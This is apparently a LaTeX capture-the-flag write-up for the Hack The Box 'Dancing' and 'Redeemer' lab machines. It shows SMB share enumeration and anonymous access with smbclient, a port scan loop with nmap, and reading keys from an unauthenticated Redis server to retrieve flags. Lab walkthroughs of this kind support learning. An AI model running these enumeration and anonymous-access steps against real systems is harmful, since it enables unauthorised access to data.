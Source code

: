 \documentclass[a4paper,12pt]{article}
\newcommand{\bashinline}[1]{\texttt{#1}}
\begin{document}
What is the service name for port 445 that came up in our scan? \bashinline{microsoft-ds}.

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
\begin{bash}
sudo pacman -S smbclient
smbclient -L 10.129.71.114
Password: (empty)
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN\$         Disk      Remote Admin
        C\$             Disk      Default share
        IPC\$           IPC       Remote IPC
        WorkShares      Disk
\end{bash}

What is the name of the share we are able to access in the end with a blank password? WorkShares.

\begin{bash}
smbclient -N //10.129.71.114/Workshares
smb: \> ls
smb: \> cd James.P
smb: \> get flag.txt
\end{bash}

\subsection{Redeemer \faLinux}

Which TCP port is open on the machine? HTB hints that the TCP open port has 4 digits and the last one is 9. Generate a list \bashinline{ports9.txt} with these ports and
\begin{bash}
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
\end{bash}

Which service is running on the port that is open on the machine? \bashinline{redis} is open on port 6379.

What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database.
Googling about Redis, we see that it is an ``in-memory Database''.

Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.
\begin{bash}
sudo pacman -S redis
redis-cli -h 10.129.70.15
\end{bash}

Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? From \url{https://redis.io/commands/}, \bashinline{info}.
\begin{bash}
10.129.70.15:6379> info
10.129.70.15:6379> select 0
10.129.70.15:6379> info
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.70.15:6379> keys *
10.129.70.15:6379> get flag
\end{bash}
\end{document}
